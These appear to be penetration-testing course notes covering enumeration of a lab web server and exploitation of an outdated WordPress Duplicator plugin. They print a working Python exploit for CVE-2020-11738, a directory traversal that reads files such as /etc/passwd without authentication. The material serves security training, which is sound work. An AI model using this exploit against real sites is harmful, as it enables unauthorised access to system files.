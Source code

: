 The output shows that there are two exploits matching the version of the Duplicator plugin on WEBSRV1
+ One is tagged with _Metasploit_, indicating that this exploit was developed for The Metasploit Framework
+ We'll review them in the next Learning Unit

Let's summarize what information we obtained about WEBSRV1 in this section
+ We learned that the target machine is an Ubuntu 22.04 system with two open ports: 22 and 80
+ A WordPress instance runs on port 80 with various active plugins
+ A plugin named Duplicator is outdated and a SearchSploit query provided us with two vulnerability entries matching the version

## Attacking a Public Machine
In the previous Learning Unit, we gathered information on both MAILSRV1 and WEBSRV1 machines
+ Based on the enumeration results, we identified a potentially vulnerable WordPress plugin on WEBSRV1
+ In this Learning Unit, we'll attempt to exploit this vulnerable plugin and get access to the system
+ If we are successful, we'll perform privilege escalation and search the target machine for sensitive information

### Initial Foothold
In the previous Learning Unit, we used SearchSploit to find exploits for Duplicator 1.3.26
+ SearchSploit provided two exploits for this version, one of which was an exploit for Metasploit
+ Let's use SearchSploit to examine the other displayed exploit by providing the ExploitDB ID from Listing 7 to **-x**:
```
searchsploit -x 50420
```

Once entered, the information and exploit code for a directory traversal attack on Duplicator 1.3.26 are shown:
```
# Exploit Title: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
# Date: October 16, 2021
# Exploit Author: nam3lum
# Vendor Homepage: https://wordpress.org/plugins/duplicator/
# Software Link: https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip]
# Version: 1.3.26
# Tested on: Ubuntu 16.04
# CVE : CVE-2020-11738

import requests as re
import sys

if len(sys.argv) != 3:
        print("Exploit made by nam3lum.")
        print("Usage: CVE-2020-11738.py http://192.168.168.167 /etc/passwd")
        exit()

arg = sys.argv[1]
file = sys.argv[2]

URL = arg + "/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../.." + file

output = re.get(url = URL)
print(output.text)
```
+ Above shows the Python code to exploit the vulnerability tracked as _CVE-2020-11738_
+ Notice that the Python script sends a GET request to a URL and adds a filename prepended with "dot dot slash" expressions
